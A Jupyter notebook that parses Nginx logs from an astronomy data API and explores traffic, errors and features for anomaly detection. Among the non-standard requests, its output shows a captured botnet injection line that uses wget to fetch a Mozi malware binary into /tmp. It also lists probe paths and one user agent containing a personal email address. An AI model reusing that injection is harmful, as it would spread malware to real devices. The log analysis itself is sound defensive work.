# 02 - Log parsing, preprocessing, data exploration and first features selection 

This notebook transforms the raw Nginx logs into structured DataFrames and evaluates how reliably the three log categories can be connected.
The workflow include: discovering the raw log files, parsing access, geo, and error logs using reusable functions from src/... . It also introduce a high-level data exploration and analysis for features to prioritise for anomaly detection .

## Setup 

Some imports and discovering raw files : 

In [1]:
import sys
from pathlib import Path
import pandas as pd 
import matplotlib.pyplot as plt
import seaborn as sns


project_root = Path.cwd().parent 
sys.path.append(str(project_root))

from src.fink_api_anomaly_detection.preprocess.nginx_logs.access_logs import build_access_dataframe
from src.fink_api_anomaly_detection.preprocess.nginx_logs.geo_logs import build_geo_dataframe
from src.fink_api_anomaly_detection.preprocess.nginx_logs.error_logs import build_error_dataframe
from src.fink_api_anomaly_detection.data.raw_logs import ls_log_files



DATA_DIR = project_root / "data" / "nginx_history_logs"
print(f"Dataset directory: {DATA_DIR.relative_to(project_root)}")


files_by_category = {
    category: ls_log_files(DATA_DIR, category)
    for category in ["access-logs", "error-logs", "geo-logs"]
}

# list of file path in each category
access_files = ls_log_files(DATA_DIR,"access-logs")
geo_files = ls_log_files(DATA_DIR,"geo-logs")
error_files = ls_log_files(DATA_DIR,"error-logs")


Dataset directory: data/nginx_history_logs


## Parse the three log categories
The parsing logic lives in reusable modules. Each parser preserves source_file and source_line_number so that parsed records can be traced back to their original lines. The parsing of each category in stored in a dataframe.

In [2]:
access_df = build_access_dataframe(access_files)

For access logs, structurally valid records should be retained even when the request string is not a standard HTTP request. In that case, `is_standard_http_request` should be False, while method, endpoint, and protocol should remain missing.

In [ ]:
print(f"Access records parsed: {len(access_df):,}")
print("invalid_line_count :", access_df.attrs.get("invalid_line_count"))
access_df.head()

In [4]:
geo_df = build_geo_dataframe(geo_files)

In [ ]:
print(f"Geo records parsed: {len(geo_df):,}")
print("invalid_line_count :", geo_df.attrs.get("invalid_line_count"))
print(f"geo df shape : {geo_df.columns}")
geo_df.head()

The access and geo logs each contain **1,005,103 parsed records** across the 14-day observation period. Equal row counts do not by themselves prove that records correspond row by row; any join must be validated using suitable keys.

In [6]:
errors_df = build_error_dataframe(error_files)

In [ ]:
print(f"Error records parsed:  {len(errors_df):,}")
print("invalid_line_count :", geo_df.attrs.get("invalid_line_count"))
errors_df.head()

The error logs contain **833 parsed events**, compared with 1,005,103 access and geo records each. Error-log entries are separate server-side events; their counts do not imply a one-to-one correspondence with access or geo rows.

## Let inspect non-standard access requests

A normal HTTP request field usually resembles **GET /api/v1/objects HTTP/1.1**. Some observed access-log rows contain escaped bytes such as **\\x16\\x03\\x01...** and have status **400**. We will inspect and count these records, but will not automatically label them as malicious (because we don't yet know what it is ; whether it's code injection, a TLS handshake issue...)

In [8]:
access_df["is_standard_http_request"].value_counts(dropna=False)

is_standard_http_request
True     1004850
False        253
Name: count, dtype: Int64

There are **253 non-standard HTTP request records** in the access logs (about 0.025% of all records). The following cells inspect their status codes and request fields; non-standard requests are not automatically classified as malicious.

In [9]:
non_standard_df = access_df.loc[access_df["is_standard_http_request"].eq(False)].copy()
non_standard_df[["timestamp", "request", "status_code", "method","endpoint", "protocol", "source_file", "source_line_number"]].head(10)

,timestamp,request,status_code,method,endpoint,protocol,source_file,source_line_number
3956,2026-10-03 01:00:24+00:00,\x16\x03\x01\x00\xCA\x01\x00\x00\xC6\x03\x03\x...,400,None,None,None,access.log-20261004.gz,3957
3957,2026-10-03 01:00:24+00:00,\x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03P\...,400,None,None,None,access.log-20261004.gz,3958
10814,2026-10-03 02:35:08+00:00,\x16\x03\x01\x00\x8D\x01\x00\x00\x89\x03\x0399...,400,None,None,None,access.log-20261004.gz,10815
21176,2026-10-03 04:32:11+00:00,\x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03I\...,400,None,None,None,access.log-20261004.gz,21177
37033,2026-10-03 07:40:29+00:00,\x16\x03\x01\x00\xFD\x01\x00\x00\xF9\x03\x03!7...,400,None,None,None,access.log-20261004.gz,37034
41107,2026-10-03 08:27:01+00:00,\x16\x03\x02\x01o\x01\x00\x01k\x03\x02RH\xC5\x...,400,None,None,None,access.log-20261004.gz,41108
51186,2026-10-03 10:14:29+00:00,27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp...,400,None,None,None,access.log-20261004.gz,51187
55811,2026-10-03 10:56:16+00:00,\x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03[\...,400,None,None,None,access.log-20261004.gz,55812
56149,2026-10-03 10:59:14+00:00,\x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03*q...,400,None,None,None,access.log-20261004.gz,56150
57646,2026-10-03 11:13:13+00:00,\x16\x03\x01\x00u\x01\x00\x00q\x03\x03\xD7+\xF...,400,None,None,None,access.log-20261004.gz,57647


Of the 253 non-standard requests, **247 returned status 400**, two returned 404, two returned 301, one returned 499, and one returned 200. Their method, endpoint, and protocol fields are missing because the request strings do not match the expected HTTP request-line format.

In [10]:
non_standard_df[["status_code"]].value_counts(dropna=False)

status_code
400            247
404              2
301              2
200              1
499              1
Name: count, dtype: int64

In [11]:
non_standard_df[["method","endpoint", "protocol"]].value_counts(dropna=False)

method  endpoint  protocol
NaN     NaN       NaN         253
Name: count, dtype: int64

In [12]:
print(f"Distinct clients in non-standard requests: {non_standard_df['client_ip'].nunique():,}")

Distinct clients in non-standard requests: 123


Non-standard request patterns can have multiple explanations, including malformed requests or protocol mismatches. These records alone do not establish scanning, brute-force activity, or malicious intent.

---

## High-level data exploration -  acces logs



Status codes: 

In [13]:
status_counts = access_df["status_code"].value_counts(dropna=False).sort_values(ascending=False)
status_percentages = (status_counts / len(access_df) * 100).round(3)

result = pd.DataFrame({"count": status_counts,"percentage": status_percentages})

print(result)

              count  percentage
status_code                    
200          933719      92.898
404           27294       2.716
301           15482        1.54
400           13832       1.376
500           13503       1.343
502             634       0.063
499             335       0.033
405             127       0.013
403              89       0.009
504              69       0.007
415               9       0.001
304               6       0.001
308               4         0.0


The current dataset contains **1,005,103 access records**. HTTP 200 responses account for **92.898%** of records. The 5xx statuses total **14,206 records (1.413%)**; the remaining responses are primarily 4xx errors and redirects. These aggregate rates describe the logs and do not, by themselves, identify incidents.

HTTP methods : 

In [14]:
methods_counts = access_df["method"].value_counts(dropna=False).sort_values(ascending=False)
methods_percentages = (methods_counts / len(access_df) * 100).round(3)

result = pd.DataFrame({"count": methods_counts,"percentage": methods_percentages})

print(result)

                   count  percentage
method                              
POST              897536      89.298
GET               106764      10.622
None                 253       0.025
HEAD                 147       0.015
PUT                  134       0.013
OPTIONS              121       0.012
OPENVASVT             78       0.008
PRI                   34       0.003
CONNECT                8       0.001
PROPFIND               6       0.001
TRACE                  5       0.000
VTTEST                 2       0.000
OpenVASVT              2       0.000
TRACK                  2       0.000
SKKX                   1       0.000
SSTP_DUPLEX_POST       1       0.000
GCVZ                   1       0.000
VLCO                   1       0.000
NXWJ                   1       0.000
BGLG                   1       0.000
URNS                   1       0.000
SLEM                   1       0.000
TOUR                   1       0.000
JGYY                   1       0.000
DELETE                 1       0.000


POST accounts for **89.298%** of requests and GET for **10.622%**. Other methods, including missing or uncommon method values, make up the remainder. Rare methods should be interpreted in context rather than treated as evidence of malicious activity on their own.

Endpoints : 

In [15]:
endpoints_counts = access_df["endpoint"].value_counts(dropna=False).sort_values(ascending=False)
endpoints_percentages = (endpoints_counts / len(access_df) * 100).round(3)

result = pd.DataFrame({"count": endpoints_counts,"percentage": endpoints_percentages})

print(result.head(30))
print("shape:",result.shape)

                                                     count  percentage
endpoint                                                              
/api/v1/objects                                     571191      56.829
/api/v1/conesearch                                  121386      12.077
/api/v1/latests                                      80012       7.961
/api/v1/cutouts                                      79695       7.929
/api/v1/resolver                                     22827       2.271
/api/v1/sso                                          14808       1.473
/api/v1/statistics                                    4445       0.442
/api/v1/ssoft                                         2117       0.211
/api/v1/objects?objectId=ZTF19acmdpyr                 2004       0.199
/                                                     1850       0.184
/api/v1/metadata?objectId=ZTF26aazbyow&                710       0.071
/api/v1/schema                                         530       0.053
/robot

**94.15%** of records use an endpoint under `/api/v1/`; the remaining **5.85%** are outside that prefix or have no parsed endpoint. This is a useful traffic-composition feature, but requests outside the prefix are not automatically invalid or malicious.

Client IP addresses: 

In [16]:
ip_counts = access_df["client_ip"].value_counts(dropna=False)
print(f"Unique clients in access logs: {ip_counts.size:,}")

Unique clients in access logs: 3,628


IP-level data can be sensitive and should not be included in published notebook outputs. For analysis, prefer aggregated counts and combine endpoint, method, and response information without treating individual client addresses as incident labels.

In [17]:
# Selected paths are descriptive examples, not labels of malicious activity.
suspicious_endpoints = ['/robots.txt', '/swagger.json', '/this_is_a_new_hello_world.php', '/wp-content/plugins/hellopress/wp_filemanager.php', None]
suspicious_traffic = access_df[access_df['endpoint'].isin(suspicious_endpoints)]
print(f"Records on selected paths: {len(suspicious_traffic):,}")
print(f"Distinct clients on selected paths: {suspicious_traffic['client_ip'].nunique():,}")

Records on selected paths: 798
Distinct clients on selected paths: 372


Counts of distinct clients associated with selected paths can be useful descriptive context, but they do not confirm automated scanning or malicious behavior. No IP addresses are displayed in the notebook output.

User agents and referrers :

Reminder
- The **User-Agent** is a text-based identifier that informs the server about the type of browser, operating system, and device making the request.
- The **Referer** indicates the URL of the previous web page from which the user clicked to arrive at the current page.

In [18]:
access_df["user_agent"].value_counts(dropna=False).head(20).rename_axis("user_agent").to_frame("count")


,count
user_agent,
Apache-HttpClient/4.5.14 (Java/17.0.20.1),420417
python-requests/2.32.3,107034
comethunter/0.1 (research pipeline; https://github.com/Seebrasse345/comet-hunter),92326
python-httpx/0.28.1,58213
p1to3-screener/0.1 (research),48104
python-requests/2.34.2,45318
RAVEN-MissionControl/1.0 (research; contact rajiv.uttamchandani@gmail.com),42720
"Mozilla/5.0 [en] (X11, U; OpenVAS-VT 23.38.1)",32109
None,21324


In [19]:
referer_summary = pd.DataFrame({
    "missing_count": [access_df["http_referer"].isna().sum()],
    "missing_percent": [access_df["http_referer"].isna().mean() * 100],
    "unique_non_null_values": [access_df["http_referer"].nunique(dropna=True)],
})
display(referer_summary.round(2))

,missing_count,missing_percent,unique_non_null_values
0,998029,99.3,54


The most common user agents are Apache-HttpClient (**420,417** records), `python-requests` (**107,034**), and `comethunter` (**92,326**). The `http_referer` field is missing in **998,029** records (about **99.30%**). These observations describe client usage; they do not independently establish whether traffic is anomalous.

#### Traffic by day : 

In [20]:
# Prepare data for daily traffic analysis
df = access_df.copy()
df["day"] = df["timestamp"].dt.floor("D")

Traffic volume trends:



,daily_requests
count,14.00
mean,71792.64
std,31737.34
min,31631.00
25%,55045.25
50%,61791.50
75%,84354.50
max,151646.00


In [21]:
daily_traffic = df.groupby("day").size().rename("total_requests")

last_day = df["day"].max()
last_timestamp = df["timestamp"].max()
if last_timestamp < last_day + pd.Timedelta(1, unit="D") - pd.Timedelta(1, unit="min"):
    daily_traffic = daily_traffic.loc[daily_traffic.index < last_day]
complete_days = daily_traffic.index

traffic_median = daily_traffic.median()

fig, ax = plt.subplots(figsize=(12, 5))

ax.plot(daily_traffic.index, daily_traffic.values, marker="o", label="Daily requests")

ax.axhline(traffic_median, linestyle="--", label=f"Daily median: {traffic_median:,.0f}")

ax.set_title("Daily API Traffic (complete UTC days)")
ax.set_xlabel("Date (UTC)")
ax.set_ylabel("Number of requests")
ax.legend()
ax.grid(alpha=0.3)

plt.xticks(rotation=45)
plt.tight_layout()
plt.show()

display(daily_traffic.describe().to_frame(name="daily_requests").round(2))

The filename dates cover **October 4–17, 2026**; the corresponding event timestamps begin on October 3. Across the **14 complete UTC days from October 3 through October 16**, daily access volume averaged **71,793** records (median **61,792**, standard deviation **31,737**). The maximum was **151,646** on October 9. The six records timestamped on October 17 form a partial day and are excluded from these daily summary statistics.

Daily trend of HTTP errors:



In [22]:
daily_errors = df.groupby("day").agg(
    total_requests=("status_code", "size"),
    errors_4xx=(
        "status_code",
        lambda s: s.between(400, 499).sum()
    ),
    errors_5xx=(
        "status_code",
        lambda s: s.between(500, 599).sum()
    )
)

daily_errors = daily_errors.loc[daily_errors.index.isin(complete_days)]

fig, ax = plt.subplots(figsize=(12, 5))

ax.plot(daily_errors.index,daily_errors["errors_4xx"],marker="o",label="4xx errors")

ax.plot(daily_errors.index,daily_errors["errors_5xx"],marker="o",label="5xx errors")

ax.set_title("Daily Evolution of HTTP Errors")
ax.set_xlabel("Date ")
ax.set_ylabel("Number of errors")
ax.legend()
ax.grid(alpha=0.3)

plt.xticks(rotation=45)
plt.tight_layout()
plt.show()

Correlation between 4xx and 5xx:



In [23]:

correlation = daily_errors[["errors_4xx", "errors_5xx"]].corr()
fig, ax = plt.subplots(figsize=(5, 4))

sns.heatmap(correlation,annot=True,fmt=".2f",cmap="coolwarm",vmin=-1,vmax=1,center=0,ax=ax)

ax.set_title("Correlation Between Daily 4xx and 5xx Errors")

plt.tight_layout()
plt.show()

Across the 14 complete UTC days, the correlation between daily 4xx and 5xx counts is approximately **-0.06**, indicating no meaningful linear relationship in this short observation period. Correlation does not imply causation.

Many additional analyses can be performed on access log attributes and their combinations (e.g., endpoints, user agents, HTTP status codes, client IPs,etc.). However, exploring every possible combination is beyond the scope of this notebook.

## High-level data exploration -  geo logs

In [ ]:

print(f"Unique countries: {geo_df['country'].nunique(dropna=True):,}")

country_counts = geo_df["country"].value_counts(dropna=False).head(20)
country_percent = (country_counts / len(geo_df) * 100).round(3)
country_summary = pd.DataFrame({"count": country_counts,"percentage": country_percent})

print("20 most active countries:")
display(country_summary)

France accounts for **59.535%** of geo-log records, followed by the United States (**18.616%**) and the United Kingdom (**9.355%**). These shares describe the observed dataset and should not be assumed to represent a long-term traffic distribution.



In [25]:
top_countries = geo_df["country"].value_counts().head(10).index
country_by_day = geo_df.loc[geo_df["timestamp"].dt.floor("D").isin(complete_days) & geo_df["country"].isin(top_countries)].assign(day=lambda x: x["timestamp"].dt.floor("D")).groupby(["day", "country"]).size().unstack(fill_value=0)
country_by_day.plot(figsize=(12, 7), marker="o")
plt.title("Daily Traffic by Top 10 Countries")
plt.xlabel("Date (UTC)")
plt.ylabel("Number of requests")
plt.xticks(rotation=45)
plt.grid(alpha=0.3)
plt.tight_layout()
plt.show()

France remains the largest source of geo-log records across the observed period. The daily plot uses complete UTC days only; the final partial day is excluded.

In [26]:
country_stats = geo_df.groupby("country").agg(
    total_requests=("status_code", "size"),
    errors_5xx=("status_code", lambda s: s.between(500, 599).sum())
)
country_stats["error_rate_pct"] = country_stats["errors_5xx"] / country_stats["total_requests"] * 100
display(country_stats[country_stats["errors_5xx"] > 0].sort_values("error_rate_pct", ascending=False).head(10))

,total_requests,errors_5xx,error_rate_pct
country,,,
Guatemala,4,1,25.0
Turkey,298,57,19.127517
Peru,11,2,18.181818
Denmark,1429,193,13.505948
India,139,15,10.791367
Brazil,10693,969,9.062003
Singapore,78,5,6.410256
Greece,1648,71,4.308252
Japan,1538,52,3.381014


## High-level data exploration -  error logs

Errors overview : 

In [ ]:
errors_df.drop(columns=["client_ip"]).head()

In [28]:
print(f"Totals errors : {errors_df.shape[0]}")

Totals errors : 833


Errors by day:



In [29]:

error_daily = errors_df.assign(day=pd.to_datetime(errors_df["timestamp"], utc=True).dt.floor("D")).groupby("day").size().rename("error_records").to_frame()
error_daily["error_records"].plot(figsize=(12, 5), marker="o")
plt.title("Daily Nginx Error Log Records")
plt.xlabel("Date (UTC)")
plt.ylabel("Number of error records")
plt.grid(alpha=0.3)
plt.xticks(rotation=45)
plt.tight_layout()
plt.show()

The error logs contain **833 events** across October 3–16. Daily counts peaked at **111 on October 16**; earlier increases include 53 events on October 7, 99 on October 8, and 105 on October 9. Coincident changes in traffic and error counts are descriptive and do not establish a causal relationship.

Error cols content inspection :

In [ ]:
for column in [
    "error_level", "error_code", "error_description", "error_message",
"server", "host", "method", "endpoint", "upstream"
]:
    if column in errors_df.columns:
        print(f"{column}: {errors_df[column].nunique(dropna=True):,} unique non-null values")
        display(errors_df[column].value_counts(dropna=False).head(20).rename_axis(column).to_frame("count"))
        

Of the **833 Nginx error events**, **784** are classified as `error` and **49** as `crit`. The most frequent parsed descriptions are connection resets (**427**), broken pipes (**199**), timeouts (**69**), and missing files (**8**); 130 records have no parsed description. Parsed methods include 651 POST, 141 GET, and 41 missing values. The most common parsed endpoint is `/api/v1/objects` (428 events). These are counts of log messages, not confirmed incidents.

---

## Feature analysis and selection

Before selecting variables for a baseline or a future machine learning model, let’s examine their data type, the number of distinct values ​​they contain, and their proportion of missing values. This will help us choose the right featuresn, becaause a feature with no values ​​(all nulls) or one that contains the same value throughout the entire column is useless for a machine learning model.

In [31]:
def feature_inventory(df):
    return pd.DataFrame({
        "dtype": df.dtypes.astype(str),
        "missing_pct": (df.isna().mean() * 100).round(2),
        "unique_values": df.nunique()
    }).sort_values("unique_values")


### From access logs

In [32]:

display(feature_inventory(access_df))

,dtype,missing_pct,unique_values
ident,object,0.00,1
is_standard_http_request,boolean,0.00,2
protocol,object,0.03,5
remote_user,object,100.00,5
status_code,Int64,0.00,13
source_file,object,0.00,14
x_forwarded_for,object,99.92,16
method,object,0.03,24
http_referer,object,99.30,54
user_agent,object,2.12,452


Several columns can be excluded from the initial feature set. **remote_user** contains only missing values, while **ident** is constant. Similarly, **x_forwarded_for** contains approximately 99.92% missing values, making it a low-priority feature. The columns **source_file** and **source_line_number** are retained only for traceability and are **not** directly useful **for modelling**. The raw request column is also redundant because its main components are already represented by method, endpoint, and protocol.The remaining variables are more relevant to anomaly detection. **timestamp** is essential for temporal aggregation, while **status_code** supports the calculation of **HTTP error rates**. method and endpoint can help identify changes in API usage. **bytes_sent** can reveal unusual variations in response volume. Finally, client_ip, user_agent, and is_standard_http_request may **help identify unusual traffic patterns** and should initially be retained for further feature engineering.

### From geo logs

In [33]:
display(feature_inventory(geo_df))

,dtype,missing_pct,unique_values
status_code,Int64,0.0,13
source_file,object,0.0,14
country,object,0.0,66
endpoint,object,0.0,59773
source_line_number,Int64,0.0,151645
timestamp,"datetime64[ns, UTC]",0.0,510156


The columns source_file and source_line_number are excluded because they are used for traceability rather than modelling. The timestamp column is necessary for temporal aggregation, while **country** can help identify changes in the **geographical distribution of traffic**. status_code can be used to investigate **HTTP error rates across countries**, and endpoint may help determine whether unusual geographical patterns affect specific API endpoints.

In [34]:
display(feature_inventory(errors_df))

,dtype,missing_pct,unique_values
protocol,object,4.92,1
error_level,object,0.00,2
server,object,0.00,2
method,object,4.92,2
host,object,4.92,3
error_description,object,15.61,4
error_code,Int64,15.61,4
error_message,object,0.00,6
worker_tid,Int64,0.00,12
worker_pid,Int64,0.00,12


The columns source_file and source_line_number are excluded because they do not directly describe system behaviour. The variables **worker_tid, worker_pid, and connection_id** are also excluded from the initial feature set because they are technical identifiers rather than direct indicators of service health. The **protocol** column has only one distinct value and therefore provides no discriminative information in the current dataset. The **server and host** columns have very limited variability (corresponds to api.ztf.fink-portal.org or its IP address) and are not considered priorities for the initial model. The **error_description** column is provisionally excluded because its information may overlap with  **error_message**; In contrast, **timestamp, error_level, error_code** are retained for further analysis. The **endpoint and upstream** columns can help identify which **API components are affected by errors**, while method and **client_ip** may provide additional context for investigating unusual events.

## Features to prioritise for anomaly detection (baseline/model)
After the features analysis, the next natural step is to transform the selected  variables/cols into numerical indicators aggregated over fixed **2-min/5-minute/10-minute  time windows** (for the train set). The following indicators will be prioritised for the initial analysis:

| Priority | Indicator | Source | Purpose |
|---:|---|---|---|
| 1 | Total number of requests  | `access_df` | Detect traffic spikes and sudden drops in activity. |
| 2 | HTTP 4xx error rate | `access_df` | Identify unusual increases in client-side errors. |
| 3 | HTTP 5xx error rate | `access_df` | Detect potential server-side problems. |
| 4 | Number of GET and POST (also anumalous Methods) requests | `access_df` | Identify changes in request patterns and API usage. |
| 5 | Number of distinct client IP addresses | `access_df` | Detect unusual variations in the number of active clients. |
| 6 | Total bytes sent | `access_df` | Identify unusual variations in response volume. |
| 7 | Number of distinct countries | `geo_df` | Detect changes in the geographical diversity of traffic. |
| 8 | Traffic proportion by country | `geo_df` | Identify unusual changes in the geographical origin of requests. |
| 9 | Total number of Nginx error records | `errors_df` | Monitor infrastructure issues and changes in error frequency. |
| 10 | Number of critical (crit) errors | `errors_df` | Identify potentially severe incidents. |
| 11 | Number of upstream timeouts | `errors_df` | Detect potential availability and response-time issues. |
| 12 | Number of connection interruptions | `errors_df` | Monitor connection problems between Nginx and the upstream API. |
| 13 | Number of requests per endpoint | `access_df` | Detect unusual traffic patterns affecting specific API endpoints. |

The three data sources will be aggregated independently using consistent time windows and then combined using their corresponding time intervals. Windows without Nginx error records must be retained, with error counts set to zero where appropriate. HTTP 5xx responses and Nginx error records will be treated as separate indicators because they do not necessarily represent the same events.

## Conclusion

The initial data exploring and feature selection help us to removes columns that are entirely missing, constant, redundant, not informatif or intended solely for traceability. The remaining variables provide information about API traffic, HTTP reliability, client behaviour, geographical distribution, and infrastructure errors.